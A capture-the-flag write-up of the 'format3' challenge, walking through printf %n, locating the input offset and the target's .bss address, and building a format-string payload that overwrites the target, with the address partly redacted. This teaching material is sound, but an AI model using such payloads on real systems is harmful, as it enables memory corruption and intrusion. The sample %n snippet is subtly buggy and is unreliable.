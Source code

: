 ```yaml
---
title:  "format3 Writeup"
date:   2019-03-27 11:08:00
categories: writeup 
layout: post
author: Thomas White
---
```



The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```

With `%n` in mind, let's take a brief look at the (abbreviated) source code for `format3`:

```c
int target;


void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```

We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.


```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:

```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804????.
```

**Instructor's Note: I've redacted the address partially (via the "????" string) so that the reader can't just copy the solution string at the bottom.**

As we can see, `target` is located at `0x804????`. So what part of memory is that? A quick look at `info proc map` tells us that this address does not lie in the stack, but the output isn't super helpful otherwise. To answer our question, we need to use another utility: `readelf`. A quick call to `readelf -S format3` will give us all of the sections in our ELF[^1] binary and a quick look will tell us that address `0x804????` falls into `.bss`. The `.bss` section is a location in memory that holds unitilized data, all of which will be initialized to zeros when the program starts execution. Ah, so we can conclude that our compiler decided that the `.bss` section was to the best place to put the unitialized global variable `target`. In the absence of ASLR, we also suspect that this address will remain the same both inside and outside of gdb.

[^1]: [ELF](/papers/elf.pdf) is the file format used by Linux executables.

If we pull this all together, our current exploit string looks like `python -c "print '????\x04\x08'+'%x'*15"` which would stop printing after it prints `804????`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run

```bash
python -c "print '????\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```

Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.

First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it 
does:

```bash
python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```

To avoid waiting you can do 
```bash
python -c "print ...." | ./format3 | grep -a flag
```

